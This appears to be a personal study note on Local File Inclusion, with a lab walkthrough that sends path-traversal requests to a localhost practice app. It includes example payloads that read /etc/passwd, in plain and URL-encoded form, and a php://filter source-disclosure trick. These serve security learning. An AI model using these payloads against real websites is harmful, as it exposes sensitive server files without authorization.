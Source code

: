 
[[6. Injection Attacks]]


> Local File Inclusion and Remote File Inclusions

## What is LFI ?

- LFI is a vulnerability where an attacker can **include files from the local server** (the machine hosting the website) **through a vulnerable input.**

- USE CASE :
    - To read sensitive files like `/etc/passwd` (Linux)
    - `C:\Windows\win.ini` (Windows).


```Markdown
# EXAMPLE PAYLOADS 

	- http://example.com/index.php?page=../../../../etc/passwd
	- http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

### File Inclusion 0x01

1. Under Select recipe:
    1. choose a recipe and look in Burp Suite.

```Markdown
GET /labs/fi0x01.php?filename=chocolate_cake.txt HTTP/1.1
Host: localhost
```

1. The highlighted is a file. NOW instead of this lets manipulate it to show print some files like “etc/passwd —- LINUX”.

  

```Markdown
## Ori:

	GET /labs/fi0x01.php?filename=chocolate_cake.txt HTTP/1.1
	Host: localhost
	
## Without enocoding:

	GET /labs/fi0x01.php?filename=../../../../../etc/passwd HTTP/1.1
	Host: localhost
	
### OUTPUT : 
```

  

![[image 31.png|image 31.png]]

  

```Markdown
### If the above method didn't work, 
### then try to encode the url and then send the encoded one.


## Encoded URL:

	GET /labs/fi0x01.php?filename=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
	Host: localhost
	
	
## OUPUT : 

	- same ouptut as above
```